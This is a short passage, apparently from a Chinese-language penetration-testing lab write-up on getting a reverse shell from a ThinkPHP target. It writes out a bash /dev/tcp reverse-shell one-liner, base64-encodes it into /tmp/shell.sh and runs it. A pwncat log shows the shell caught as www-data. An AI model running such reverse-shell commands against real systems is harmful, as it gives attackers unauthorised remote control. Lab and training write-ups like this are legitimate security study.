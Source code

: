 ![img](img/image_20240726-112613.png)

## Thinkphp 反弹 shell

经过检测，靶机 `Thinkphp` 可以出网，所以可以直接反弹 shell

```shell title="Thinkphp"
# /bin/bash -i >& /dev/tcp/192.168.200.129/9998 0>&1
$ echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMjAwLjEyOS85OTk4IDA+JjE= | base64 -d > /tmp/shell.sh
$ chmod +x /tmp/shell.sh
$ ls -lh /tmp/shell.sh
-rwxr-xr-x    1 www-data www-data      50 Jul 25 03:28 /tmp/shell.sh
$ /bin/bash /tmp/shell.sh
```

接收到反连的 shell

```shell title="Kali"
(local) pwncat$ connect -lp 9998
[11:30:22] received connection from 192.168.200.2:47244                                                                                                                                               bind.py:84
[11:30:23] 192.168.200.2:47244: registered new host w/ db                                                                                                                                         manager.py:957
(local) pwncat$ back
(remote) www-data@4c2afff6c232:/var/www/public$ whoami
www-data
```

